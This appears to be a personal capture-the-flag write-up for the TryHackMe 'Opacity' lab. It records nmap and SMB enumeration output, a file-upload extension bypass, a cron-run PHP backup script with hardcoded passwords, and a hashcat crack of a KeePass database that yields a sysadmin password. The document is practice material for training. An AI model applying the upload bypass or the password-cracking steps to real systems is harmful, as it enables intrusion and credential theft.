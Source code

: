 <code>

https://tryhackme.com/r/room/opacity


### Enumeration
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ nmap -A  -Pn  -p- 10.10.195.188 
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-10 04:37 CDT
Nmap scan report for 10.10.195.188
Host is up (0.038s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-10T09:37:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.04 seconds

### SMB

┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ smbclient -N -L \\\\10.10.195.188

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (opacity server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
protocol negotiation failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ smbmap -H 10.10.195.188          
[+] IP: 10.10.195.188:445       Name: 10.10.195.188                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (opacity server (Samba, Ubuntu))


                                                              


### Upload Bypass

http://10.10.195.188/cloud/images/file.php &&.jpeg

### linpeas

╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)                                                                                                   
-rwxrwxrwx 1 www-data www-data 847834 Dec 19 12:54 /tmp/linpeas.sh                                                  
-rw-r--r-- 1 root root 33987 Jun 10 12:19 /var/backups/backup.zip

every minute is call script.php

<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>


	/* Define username and associated password array */
		$logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');



  ┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ keepass2john database.kdbx | grep -o "$keepass$.*" >  CrackThis.hash
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ cat CrackThis.hash   
$keepass$*2*100000*0*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ hashcat -a 0 -m 13400 CrackThis.hash ../../www/wordlists/rockyou.txt 

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: ../../www/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$keepass$*2*100000*0*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4:741852963


### open database.kdbx with master pass 741852963
get sysadmin pas Cl0udP4ss40p4city#8700







<\code>
